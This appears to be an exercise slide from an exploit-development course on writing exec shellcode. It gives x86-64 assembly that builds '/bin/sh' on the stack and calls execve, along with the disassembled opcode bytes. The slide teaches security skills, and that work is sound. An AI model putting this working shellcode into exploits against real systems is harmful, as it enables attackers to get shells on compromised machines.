

# 0x08 Writing an exec shellcode (Exercise)

| BITS 64 global \_start section .text \_start: xor rdx, rdx mov rax, rdx mov rbx, 0x68732f6e69622f41 ; "hs/nib/A" ; Endianness shr rbx, 8 push rbx mov rdi, rsp push rdx push rdi mov rsi, rsp mov al, 0x3b syscall |
| --- |
| 0000000000000000 <\_start>: 0: 48 31 d2 xor rdx,rdx 3: 48 89 d0 mov rax,rdx 6: 48 bb 41 2f 62 69 6e movabs rbx,0x68732f6e69622f41 d: 2f 73 68 10: 48 c1 eb 08 shr rbx,0x8 14: 53 push rbx 15: 48 89 e7 mov rdi,rsp 18: 52 push rdx 19: 57 push rdi 1a: 48 89 e6 mov rsi,rsp 1d: b0 3b mov al,0x3b 1f: 0f 05 syscall |
| --- |